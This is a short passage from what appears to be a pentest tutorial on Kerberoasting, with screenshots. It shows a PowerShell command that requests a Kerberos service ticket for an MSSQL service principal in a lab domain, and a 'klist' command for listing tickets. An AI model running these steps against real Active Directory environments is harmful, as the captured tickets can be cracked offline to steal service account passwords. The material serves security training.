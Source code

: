 ![image-20220925174050797](../../.gitbook/assets/image-20220925174050797.png)

New-Object cmdlet can be used in PowerShell to create a Kerberos security token object. This cmdlet can be used to generate Kerberos security tokens in PowerShell, which can be used for Kerberos authentication or Kerberoasting attacks.

```
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.sectest.com"
```

![image-20220925174305428](../../.gitbook/assets/image-20220925174305428.png)

Listing service tickets.

```
run klist
```
